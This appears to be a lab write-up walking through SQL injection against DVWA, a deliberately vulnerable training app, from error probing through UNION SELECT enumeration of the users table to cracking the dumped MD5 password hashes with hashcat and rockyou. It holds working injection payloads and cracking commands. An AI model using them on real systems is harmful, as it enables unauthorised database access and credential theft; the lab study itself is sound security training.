






# DVWA - SQL Injection
Based on <https://github.com/digininja/DVWA>
With reference to <https://github.com/mrudnitsky/dvwa-guide-2019>

## Methodology:
1. Identity query vulnerability
2. Identify injection vector
3. Identify number of columns (range) using `ORDER BY`
4. Identify data display positions in the page
5. Retrieve database/version/user information
6. Enumerate tables
7. Enumerate columns
8. Retrieve data

References:
- <https://blog.csdn.net/m0_54899775/article/details/121941275>
- <https://medium.com/@hninja049/step-by-step-sql-injection-ed1bb97b3eae>

# 1. Identify query vulnerability

### Legitimate input

Input: `1`

Output:



### Testing for error-based SQL injection

Input: `1'`

Output: `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1''' at line 1`

# 2. Identify injection vector (bypass authentication)

The error was `''1'''` when using `1'` as input → guessing that backend SQL query should be using single quotes on the id: `'$id'`

Test: close the enquiry with a single `'` and drop everything behind using `#`

Input: `1' #`

Output:


Injection vector found!

# 3. Identify range

Try to find the number of columns retrieved by the query to match the `UNION SELECT` injection later

(It should be quite obvious that the range is 2, since the output only have 2 items)

Input: `1' ORDER BY 3 #`

Output: `Unknown column '3' in 'order clause'`

This means there is no third column in the query, i.e. range is 2

# 4. Identify data display positions

Input: `1' UNION SELECT 1,2 #`

Output:



The UNION'd selection appends an additional entry to the output.

Looks like the output just recursively displays every row returned in the query.

(Try: using `1' OR 1=1 #` will return all usernames in the table!)

# 5. Retrieve database/version/user information

Input: `1' UNION SELECT DATABASE(),VERSION() #`

Output:



# 6. Enumerate tables

Input: `1' UNION SELECT TABLE_SCHEMA,TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA=database() #`

| Field | Description |
| --- | --- |
| `TABLE_SCHEMA` | The database which the table belongs to |
| `TABLE_NAME` | The name of the table |
| `information_schema.TABLES` | MySQL keeps information of all tables and columns in `information_schema` |
| `TABLE_SCHEMA=database()` | Selecting only rows related to the database that the web app is currently using |

Output:



# 7. Enumerate columns

Input: `1' UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_NAME='users' #`

| Field | Description |
| --- | --- |
| `TABLE_NAME` | The table which the column belongs to |
| `COLUMN_NAME` | The name of the column |
| `information_schema.COLUMNS` | MySQL keeps information of all tables and columns in `information_schema` |
| `TABLE_SCHEMA=database()` | Selecting only rows related to the database that the web app is currently using |

Output:



We have found the column where user passwords are stored!

# 8. Retrieve data

Let's try to dump the passwords!

Input: `1' UNION SELECT user,password FROM users #`

Output:



# 9. Cracking the passwords

The passwords retrieved from the database are password hashes, we need to crack them to get the clear text

Copy the password hashes into a file on Kali:

```console
cat << EOF >> hashes.txt
5f4dcc3b5aa765d61d8327deb882cf99
e99a18c428cb38d5f260853678922e03
8d3533d75ae2c3966d7e0d4fcc69216b
0d107d09f5bbe40cade3de5c71e9e9b7
5f4dcc3b5aa765d61d8327deb882cf99
EOF
```

Ask hashcat to guess which format is the hash

Command: `hashcat hashes.txt`

```console
The following 11 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
    900 | MD4                                                        | Raw Hash
      0 | MD5                                                        | Raw Hash
     70 | md5(utf16le($pass))                                        | Raw Hash
   2600 | md5(md5($pass))                                            | Raw Hash salted and/or iterated
   3500 | md5(md5(md5($pass)))                                       | Raw Hash salted and/or iterated
   4400 | md5(sha1($pass))                                           | Raw Hash salted and/or iterated
  20900 | md5(sha1($pass).md5($pass).sha1($pass))                    | Raw Hash salted and/or iterated
   4300 | md5(strtoupper(md5($pass)))                                | Raw Hash salted and/or iterated
   1000 | NTLM                                                       | Operating System
   9900 | Radmin2                                                    | Operating System
   8600 | Lotus Notes/Domino 5                                       | Enterprise Application Software (EAS)
```

Let's try cracking it using MD5 mode against the `/usr/share/wordlists/rockyou.txt` wordlist

Command: `hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt`

```console
5f4dcc3b5aa765d61d8327deb882cf99:password
e99a18c428cb38d5f260853678922e03:abc123
0d107d09f5bbe40cade3de5c71e9e9b7:letmein
8d3533d75ae2c3966d7e0d4fcc69216b:charley
```

Violà! Passwords cracked!
